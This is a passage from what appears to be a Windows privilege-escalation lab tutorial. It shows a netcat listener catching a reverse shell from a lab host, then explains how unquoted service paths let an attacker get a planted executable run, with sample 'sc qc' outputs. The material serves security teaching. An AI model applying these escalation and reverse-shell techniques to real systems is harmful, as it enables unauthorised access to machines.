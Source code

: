 ```
```
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```
## Unquoted Service Paths
When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `”C:\Program Files\RealVNC\VNC Server\vncserver.exe”`, followed by the given parameters:
```
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VNC Server
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
Remember: PowerShell has 'sc' as an alias to 'Set-Content', therefore you need to use 'sc.exe' to control services if you are in a PowerShell prompt.
Now let's look at another service without proper quotation:
```
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

		
Command	Argument 1	Argument 2
C:\MyPrograms\Disk.exe	Sorter	Enterprise\bin\disksrs.exe
C:\MyPrograms\Disk Sorter.exe	Enterprise\bin\disksrs.exe	
This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe `and take the rest as arguments.
```